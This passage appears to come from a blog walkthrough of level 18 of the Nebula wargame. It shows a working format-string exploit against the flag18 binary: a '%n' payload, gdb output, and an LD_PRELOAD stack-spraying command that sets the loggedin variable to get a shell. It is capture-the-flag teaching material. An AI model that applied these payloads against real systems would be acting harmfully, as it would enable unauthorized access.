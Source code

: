 I got stuck here for awhile, and after some googling I discovered someone had already solved this level this way!  So I took [his](http://v0ids3curity.blogspot.com/2012/09/exploit-exercise-format-string.html) advice and created an environmental variable that would lower the stack address and not segfault.  The final phase is now upon us; smuggling shellcode in.  The Phrack article gets a little hairy at this point, so instead of screwing around with adjusting stack offsets, I decided to just take the route that v0id took in his blog post.  His process involves setting the loggedin variable by way of taking control of uninitialized stack memory, thanks to [Rosenburg's](http://vulnfactory.org/blog/2010/04/08/controlling-uninitialized-memory-with-ld_preload/) fantastic post on this topic:

```
site exec |%20$n| %1$*479$ %1$*2848$ %1073741824$

Program received signal SIGSEGV, Segmentation fault.
0x00d7af00 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) i r
eax            0x41414141    1094795585
ecx            0x0    0
edx            0x1    1
ebx            0xeafff4    15400948
esp            0xbfdb8b9c    0xbfdb8b9c
ebp            0xbfdb97e8    0xbfdb97e8
esi            0xbfdbb810    -1076119536
edi            0xbfdb8bc0    -1076130880
eip            0xd7af00    0xd7af00 <vfprintf+11728>
eflags         0x10246    [ PF ZF IF RF ]
cs             0x73    115
ss             0x7b    123
ds             0x7b    123
es             0x7b    123
fs             0x0    0
gs             0x33    51
(gdb)
```

So we just need to find the loggedin variable, then call shell on it:

```
(gdb) x/2i $eip
=> 0x8048928 <main+376>:    cmp    DWORD PTR ds:0x804b0b4,0x1
   0x804892f <main+383>:    jle    0x804894d <main+413>
(gdb) x/x 0x804b0b4
0x804b0b0 <globals+4>:    0x00000000
```

Stick that into our LD_PRELOAD, sprinkle in a bit of stack alignment, and...

```
level18@nebula:/home/flag18$ export LD_PRELOAD=`python -c 'print "\xb4\xb0\x04\x08"*8000'`
level18@nebula:/home/flag18$ gdb ./flag18
(gdb) r -d /tmp/dbg
site exec |%20$n| %1$*479$ %1$*2848$ %1073741824$
shell
./flag18: -d: invalid option
Usage:    ./flag18 [GNU long option] [option] ...
    ./flag18 [GNU long option] [option] script-file ...
GNU long options:
    --debug
    --debugger
    --dump-po-strings
    --dump-strings
    --help
    --init-file
    --login
    --noediting
    --noprofile
    --norc
    --posix
```